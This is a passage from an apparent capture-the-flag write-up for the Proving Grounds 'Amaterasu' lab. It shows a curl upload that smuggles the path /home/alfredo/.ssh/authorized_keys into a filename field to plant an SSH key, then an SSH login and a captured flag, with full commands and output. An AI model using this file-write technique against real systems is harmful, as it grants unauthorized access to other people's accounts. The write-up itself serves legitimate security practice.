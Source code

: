 Now I first tried it I failed because it does not contains any extensions so I converted into .txt extension then I tried it →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Amaterasu]
└─$ cp id_rsa.pub id_rsa.pub.txt
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Amaterasu]
└─$ curl -L -i -X POST -H "Content-Type: multipart/form-data" -F file="@id_rsa.pub.txt" -F filename="/home/alfredo/.ssh/authorized_keys" http://192.168.230.249:33414/file-upload                                 
HTTP/1.1 201 CREATED
Server: Werkzeug/2.2.3 Python/3.9.13
Date: Thu, 06 Jul 2023 07:23:59 GMT
Content-Type: application/json
Content-Length: 41
Connection: close

{"message":"File successfully uploaded"}
```
{: .nolineno}
{: .nolineno}

---

## SHELL ➡️

Now lets try ssh into the alfredo user →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Amaterasu]
└─$ sudo ssh alfredo@192.168.230.249 -p 25022 -i id_rsa
[sudo] password for kali: 
The authenticity of host '[192.168.230.249]:25022 ([192.168.230.249]:25022)' cant be established.
ED25519 key fingerprint is SHA256:kflJUZqQzlDWxXgGuod+HGsJPk++nvt5ZyveJgx1jgQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.230.249]:25022' (ED25519) to the list of known hosts.
Last login: Tue Mar 28 03:21:25 2023
[alfredo@fedora ~]$ whoami
alfredo
[alfredo@fedora ~]$ id
uid=1000(alfredo) gid=1000(alfredo) groups=1000(alfredo)
[alfredo@fedora ~]$ pwd
/home/alfredo
[alfredo@fedora ~]$
```
{: .nolineno}
{: .nolineno}

Now here is local.txt file →

```bash
[alfredo@fedora ~]$ cat local.txt
b25a3490ade72606c99eb6e1fe38db7a
[alfredo@fedora ~]$
```
{: .nolineno}
{: .nolineno}
